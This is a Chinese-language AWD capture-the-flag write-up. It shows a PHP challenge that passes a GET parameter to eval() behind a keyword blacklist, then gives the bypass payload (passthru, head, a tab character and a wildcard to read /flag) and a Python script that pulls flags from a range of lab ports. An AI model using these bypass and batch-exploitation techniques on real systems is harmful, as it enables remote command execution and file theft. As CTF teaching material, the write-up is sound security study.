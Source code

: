 ## [TASK1]AWD自动攻击模拟

### Level-0：题目绕过

打开即可看到题目代码

```php
<?php
error_reporting(0);
if(isset($_GET['cmd'])){
    $c = $_GET['cmd'];
    if(!preg_match("/cat|system|exec|tac|more|tail|flag|`|sort|\.|shell| |php/i", $c)){
        echo "flag藏在/flag";
        echo "<br>";
        eval($c);
    }
    else
    {
        die('hacker!!');
    }
    
}else{
    highlight_file(__FILE__);
}

?>
```

从代码可以看出，最终需要执行`eval`函数，但是`cmd`参数过滤了部分关键词

命令执行函数过滤了`system`和`exec`等函数，因此可以使用`passthru`函数进行绕过

读取文件过滤了如下命令

```bash
cat
tac
more
tail
......
```

读取文件还可以使用`head`命令

还过滤了flag关键词，可以使用`*`通配符

因此payload为：

`http://172.23.26.66:12345/?cmd=passthru("head%09/fla*");`

![](./images/1.jpg)

提交可得分

![](./images/2.jpg)

### Level-1：批量获取flag

代码如下：

```python
#coding:utf-8
import requests
tmp_url = 'http://172.23.26.66:'
for port in xrange(12345,12355):
	url = tmp_url + str(port) + '/?cmd=passthru("head%09/fla*");'
	res = requests.get(url)
	text = res.text
	s = "flag"
	flag = text[-39:-1]#从页面中获取flag
	print("port:"+str(port)+",flag:"+flag)
```

运行结果如下

![](./images/3.jpg)
